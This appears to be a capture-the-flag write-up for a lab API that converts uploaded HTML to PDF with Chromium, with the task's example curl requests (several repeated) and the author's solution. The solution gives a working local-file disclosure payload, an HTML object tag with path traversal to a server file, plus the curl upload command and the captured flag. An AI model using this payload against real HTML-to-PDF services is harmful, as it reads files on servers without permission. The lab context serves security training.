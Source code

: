 # API Security (medium - 200 Points)

## Task
API security is becoming more and more a target for hackers. Please hack the api service and disclose the flag /tmp/secret/flag.txt

Please start the docker from RESOURCES. Example API requests:
```
curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf

curl --request POST \
    --url https://<server>/convert/url \
    --header 'Content-Type: multipart/form-data' \
    --form remoteURL=https://localhost:3000 \
    --form marginTop=0 \
    --form marginBottom=0 \
    --form marginLeft=0 \
    --form marginRight=0 \
    -o url.pdf

curl --request POST \
    --url https://<server>/convert/html \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    --form resultFilename='foo.pdf' \
    -o html.pdf

curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf
curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf

curl --request POST \
    --url https://<server>/convert/url \
    --header 'Content-Type: multipart/form-data' \
    --form remoteURL=https://localhost:3000 \
    --form marginTop=0 \
    --form marginBottom=0 \
    --form marginLeft=0 \
    --form marginRight=0 \
    -o url.pdf

curl --request POST \
    --url https://<server>/convert/html \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    --form resultFilename='foo.pdf' \
    -o html.pdf

curl --request POST \
    --url 'https://<server>/convert/markdown' \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf

```
Example index.html to convert

```
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <title>Test Page</title>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <link rel='stylesheet' type='text/css' media='screen' href='main.css'>
    <script src='main.js'></script>
</head>
<body>
    <h1>API Security</h1>
    Hack me if you can. Disclose the file <code>/tmp/secret/flag.txt</code>

</body>
</html>
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <title>Test Page</title>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <link rel='stylesheet' type='text/css' media='screen' href='main.css'>
    <script src='main.js'></script>
</head>
<body>
    <h1>API Security</h1>
    Hack me if you can. Disclose the file <code>/tmp/secret/flag.txt</code>

</body>
</html>
```

Goal: Exploit the api service. Disclose the following file from the api service: /tmp/secret/flag.txt and you will find the flag.


## Solution

The API seems to render a given HTML file to a PDF. In the "creator" and "producer" attributes of a generated PDF its shown, that a Chromium Browser is used to render the html. This can be used, since we can include also local files, if the Chromium Renderer does not prevent this properly. I tried different techniques, a simple object inclusion does the trick a the end:

index.html file:
```
<object data="../../../../../../../../../../tmp/secret/flag.txt" type="text/plain"
width="500" style="height: 300px">
```

API Command:
```
curl -v --request POST \
    --url "https://36c02be8-c9d1-4040-add7-24c8bc413a7d.idocker.vuln.land/convert/html" \
    --header 'Content-Type: multipart/form-data' \
    --form files=@index.html \
    -o markdown.pdf
```

The rendered "markdown.pdf" contained the flag: GOLDNUGGET=1d146b90-ce14-4eb6-8e0b-e0da120463ef
